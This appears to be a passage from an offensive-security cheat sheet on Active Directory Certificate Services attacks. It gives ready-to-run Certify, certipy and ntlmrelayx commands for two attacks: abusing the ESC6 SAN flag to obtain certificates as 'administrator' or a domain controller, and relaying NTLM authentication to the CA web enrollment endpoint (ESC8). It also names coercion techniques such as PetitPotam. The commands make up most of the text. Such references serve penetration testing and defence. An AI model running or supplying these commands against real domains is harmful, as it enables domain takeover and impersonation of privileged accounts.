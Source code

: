 ### CA Configuration - ESC6

If the CA flag **EDITF\_ATTRIBUTESUBJECTALTNAME2** is set, it is possible to specify a SAN in any certificate request. This ESC has been patched with the Certifried CVE patch. If the updates are installed, exploitation requires either a template vulnerable to ESC9 or misconfigured registry keys vulnerable to ESC10.

#### Windows

```powershell
# Find info about CA
Certify.exe cas

# Find template for authent
Certify.exe /enrolleeSuppliesSubject
Certify.exe /clientauth

# Request certif with SAN
Certify.exe request /ca:'domain\ca' /template:"Certificate template" /altname:"admin"
```

#### Linux

```bash
# Verify if the flag is set
certipy find -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -stdout | grep "User Specified SAN"

#To specify a user account in the SAN
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -ca 'ca_name' -template 'vulnerable template' -upn 'administrator@contoso.local'

#To specify a computer account in the SAN
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -ca 'ca_name' -template 'vulnerable template' -dns 'dc.contoso.local'
```

### Relay Attacks - ESC8, 11

#### HTTP Endpoint - ESC8

If the HTTP endpoint is up on the CA and it accept NTLM authentication, it is vulnerable to NTLM or Kerberos relay.

##### NTLM Relay

```bash
# Prepare relay
ntlmrelayx -t "http://CA/certsrv/certfnsh.asp" --adcs --template "Template name"
#Or
certipy relay -ca ca.contoso.local

# Find a way to leak the machine or user Net-NTLM hash (Printerbug, Petitpotam, PrivExchange, etc)
```
